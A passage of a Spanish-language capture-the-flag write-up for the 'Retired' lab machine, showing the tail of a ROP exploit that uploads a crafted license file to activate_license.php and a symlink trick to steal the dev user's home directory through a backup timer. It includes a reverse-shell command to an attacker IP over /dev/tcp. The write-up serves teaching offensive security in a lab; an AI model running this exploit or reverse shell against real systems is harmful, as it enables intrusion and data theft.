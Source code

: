 ```.data = bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'``` Esto se hace tambien con los registros (rdi y rsi)
    payload += cmd[i:i+8].ljust(8, b"\x00")  # [0:8] [8:16] [16:24]...
    payload += mov_rdi_rsi

# system() <- rdi
payload += pop_rdi
payload += pack("<q",writable)
payload += system
with open("file.key", "wb") as f:
    f.write(payload)

file = {'licensefile':("file.key", open("file.key","rb"), 'application/x-iwork-keynote-sffkey')}
url = "http://10.10.11.154/activate_license.php"
req = requests.post(url, files=file)
```
Ya con esto si estamos en escucha por netcat accedemos al binario.

-------------------
# Part 6: Escalada de privilegios: www-data -> dev

Despues de un reconocimiento del sistema, encuentro que:
```console
www-data@retired:/tmp$ systemctl list-timers | head -n 4
# Se ejecuta cada minuto website_backup.timer website_backup.service
# /etc/systemd/system/website_backup.service
[Unit]
Description=Backup and rotate website
[Service]
User=dev
Group=www-data
ExecStart=/usr/bin/webbackup
[Install]
WantedBy=multi-user.target
```
El usaurio "dev" ejecuta cada minuto el script  /usr/bin/webbackup:
Renombrando variables este script es:
```
#!/bin/bash
cd /var/www/
/usr/bin/rm -f /var/www/fecha-html.zip   # Borra /var/www/fecha-html.zip 
/usr/bin/zip --recurse-paths /var/www/fecha-html.zip /var/www/html # Comprime /var/www/html en /var/www/fecha-html.zip
KEEP=10
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 | sort --zero-terminated --numeric-sort --reverse \
    | while IFS= read -r -d '' backup; do
        if [ "$KEEP" -le 0 ]; then
            /usr/bin/rm --force -- "$backup"
        fi
        KEEP="$((KEEP-1))"
    done
```
Lo que nos interesa es la parte de que hace comprime todo **/var/www/html** en  **/var/www/fecha-html.zip**. Cuando tenemos copia/compresion de archivos
o carpetas concretas hay que hacer la trampa con elnaces simbolicos:
```ln -s -f /home/dev /var/www/html``` Haz un enlace del /home/dev en /var/www/html
Ahora vemos el nuevo archivo que se ha creado y lo copiamos antes de que desaparezca:
```console
www-data@retired:/tmp$ watch -n 1 ls /var/www/
# Se crea 2023-01-22_10-18-00-html.zip
www-data@retired:/tmp$ cp /var/www/2023-01-22_10-18-00-html.zip /tmp
```
Si lo abrimos veremos que está todo el /home/dev por culpa del enlace
```console
www-data@retired:/tmp$ cd /tmp/
```